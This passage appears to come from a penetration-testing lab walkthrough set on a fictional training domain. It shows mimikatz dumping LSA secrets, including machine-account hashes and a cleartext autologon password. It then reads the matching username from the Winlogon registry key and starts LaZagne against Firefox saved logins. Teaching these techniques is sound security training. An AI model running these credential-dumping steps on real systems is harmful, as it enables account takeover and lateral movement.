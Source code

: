 mimikatz # lsadump::secrets
Domain : ACADEMY-AEN-MS0
SysKey : 61b3d49a6205a1dedb14591c22d36afc

Local name : ACADEMY-AEN-MS0 ( S-1-5-21-1020326033-369054202-3290056218 )
Domain name : INLANEFREIGHT ( S-1-5-21-2814148634-3729814499-1637837074 )
Domain FQDN : INLANEFREIGHT.LOCAL

Policy subsystem is : 1.18
LSA Key(s) : 1, default {13764b01-b89c-8adf-69ec-8937ee43821e}
  [00] {13764b01-b89c-8adf-69ec-8937ee43821e} 587be7dcfb75bb9ebb0c5c75cf4afb4488e602f9926f3404a09ecf8ba20b04e7

Secret  : $MACHINE.ACC
cur/text: -2d"GC)[+6,[+mC+UC5KXVoH&gt;j`S8CAlq1nQCP6:[*-Zv@_NAs`Pm$9xv7ohquyAKz1:rX[E40v)=p8-5@%eK3(&lt;7tZW"I\7`,Bu#]N$'%A`$Z?E@9V2zdh=
    NTLM:ced50a6f3cb256110200dcb022b32c12
    SHA1:0b5cb5af0f13110312456892b7ebede53db440e8
old/text: -2d"GC)[+6,[+mC+UC5KXVoH&gt;j`S8CAlq1nQCP6:[*-Zv@_NAs`Pm$9xv7ohquyAKz1:rX[E40v)=p8-5@%eK3(&lt;7tZW"I\7`,Bu#]N$'%A`$Z?E@9V2zdh=
    NTLM:ced50a6f3cb256110200dcb022b32c12
    SHA1:0b5cb5af0f13110312456892b7ebede53db440e8

Secret  : DefaultPassword
cur/text: DBAilfreight1!

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 37 62 35 26 80 4c 6b 2f 11 ca 06 25 ab 97 21 3f 84 f8 74 fa bc 69 a1 c4 37 2b df f8 cd 6c 8f 0a 8a d9 67 e9 42 cf 4f 96
    full: 37623526804c6b2f11ca0625ab97213f84f874fabc69a1c4372bdff8cd6c8f0a8ad967e942cf4f96
    m/u : 37623526804c6b2f11ca0625ab97213f84f874fa / bc69a1c4372bdff8cd6c8f0a8ad967e942cf4f96
old/hex : 01 00 00 00 51 9c 86 b4 cb dc 97 8b 35 9b c0 39 17 34 16 62 31 98 c1 07 ce 7d 9f 94 fc e7 2c d9 59 8a c6 07 10 78 7c 0d 9a 56 ce 0b
    full: 519c86b4cbdc978b359bc039173416623198c107ce7d9f94fce72cd9598ac60710787c0d9a56ce0b
    m/u : 519c86b4cbdc978b359bc039173416623198c107 / ce7d9f94fce72cd9598ac60710787c0d9a56ce0b

Secret  : NL$KM
cur/hex : a2 52 9d 31 0b b7 1c 75 45 d6 4b 76 41 2d d3 21 c6 5c dd 04 24 d3 07 ff ca 5c f4 e5 a0 38 94 14 91 64 fa c7 91 d2 0e 02 7a d6 52 53 b4 f4 a9 6f 58 ca 76 00 dd 39 01 7d c5 f7 8f 4b ab 1e dc 63
old/hex : a2 52 9d 31 0b b7 1c 75 45 d6 4b 76 41 2d d3 21 c6 5c dd 04 24 d3 07 ff ca 5c f4 e5 a0 38 94 14 91 64 fa c7 91 d2 0e 02 7a d6 52 53 b4 f4 a9 6f 58 ca 76 00 dd 39 01 7d c5 f7 8f 4b ab 1e dc 63
</code></pre>
<p>We find a set password but no associated username. This appears to be for an account configured with autologon, so we can query the Registry to find the username.</p>
<pre><code class="language-powershell-session">PS C:\Users\ilfserveradm&gt; Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\' -Name "DefaultUserName"

DefaultUserName : mssqladm
PSPath          : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows
                  NT\CurrentVersion\Winlogon\
PSParentPath    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
PSChildName     : Winlogon
PSDrive         : HKLM
PSProvider      : Microsoft.PowerShell.Core\Registry
</code></pre>
<p>Now we have a new credential pair: <code>mssqladm:DBAilfreight1!</code>.</p>
<p>Before we move on, let's check for any other credentials. We see Firefox installed, so we can grab the <a href="https://github.com/AlessandroZ/LaZagne">LaZagne tool</a> to try to dump any credentials saved in the browser. No luck, but always worth a check.</p>
<pre><code class="language-cmd-session">c:\Users\ilfserveradm\Documents&gt; lazagne.exe browsers -firefox
